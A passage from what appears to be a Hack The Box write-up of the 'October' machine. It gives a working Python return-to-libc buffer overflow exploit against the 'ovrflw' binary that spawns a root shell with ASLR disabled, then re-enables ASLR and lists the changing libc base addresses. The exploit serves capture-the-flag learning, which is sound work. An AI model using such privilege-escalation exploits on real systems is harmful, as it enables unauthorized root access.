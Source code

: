 With these, I can create the following (ASLR disabled) exploit.

```python
#!/usr/bin/env python

import struct

buffersled = "A"*112

libc = ''
system = struct.pack('<I', 0xb7e53310)
exit = struct.pack('<I', 0xb7e46260)
binsh = struct.pack('<I', 0xb7f75d4c)

payload = buffersled + system + exit + binsh

print payload
```

If I pass this program's execution as input to the `ovrflw` binary on the test VM, I get a root shell.

```bash
./ovrflw $(python exploit.py)
```

However, this is only with ASLR disabled.
With a working base exploit, I can now re-enable ASLR to continue developing my exploit.

```bash
artis3n@ubuntu:~/Desktop$ sudo su
[sudo] password for artis3n: 
root@ubuntu:/home/artis3n/Desktop# echo 2 > /proc/sys/kernel/randomize_va_space 
```

With ASLR re-enabled, `libc`'s memory address again changes every time.

```bash
artis3n@ubuntu:~/Desktop$ for i in `seq 0 20`; do ldd ovrflw | grep libc; done
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b9000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75a4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75e5000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb759d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7613000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb751f000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb751b000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ce000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7530000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7522000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d6000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7561000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b7000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7596000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7584000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7574000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7533000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb754d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb752d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb756d000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75e1000)
```


[birthday paradox]: https://en.wikipedia.org/wiki/Birthday_problem
[gdb]: https://www.gnu.org/software/gdb/
[hackthebox]: https://www.hackthebox.eu
[htb frolic]: https://blog.artis3nal.com/2020-06-28-htb-frolic-msf/
[lse]: https://github.com/diego-treitos/linux-smart-enumeration
[october cms]: https://octobercms.com/
[peda]: https://github.com/longld/peda
[return-to-libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[searchsploit]: https://github.com/offensive-security/exploitdb#searchsploit
[birthday paradox calculation]: /assets/img/htb/october/birthday-paradox.png
[checksec]: /assets/img/htb/october/checksec.png
[gdb peda]: /assets/img/htb/october/gdb-with-peda.png
[overflow root shell]: /assets/img/htb/october/buffer-overflow-brute.png